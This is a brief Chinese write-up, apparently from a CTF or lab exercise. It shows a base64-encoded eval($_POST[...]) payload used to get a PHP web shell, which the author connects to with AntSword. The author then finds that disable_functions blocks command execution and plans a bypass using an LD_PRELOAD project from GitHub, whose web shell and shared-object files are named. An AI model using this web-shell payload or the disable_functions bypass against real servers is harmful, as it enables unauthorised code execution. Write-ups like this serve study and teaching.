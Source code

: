 构造如下拿到shell：

```php
/?Ginkgo=ZXZhbCgkX1BPU1Rbd2hvYW1pXSk7
# 即eval($_POST[cmd]); 
```

蚁剑执行命令失败

![image-20211126215703599](image/命令执行/image-20211126215703599.png)

猜测是disable_functions禁用了执行命令的函数，查看phpinfo信息，发现disable_functions禁用了大部分命令执行的函数了

![image-20211126215827176](image/命令执行/image-20211126215827176.png)

下面去Github上下载利用 LD_PRELOAD 环境变量绕过的项目：

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD

该项目中有三个比较关键的文件

```php
bypass_disablefunc.php：一个用来执行命令的 webshell。
bypass_disablefunc_x64.so或bypass_disablefunc_x86.so：执行命令的共享对象文件，分为64位的和32位的。
```

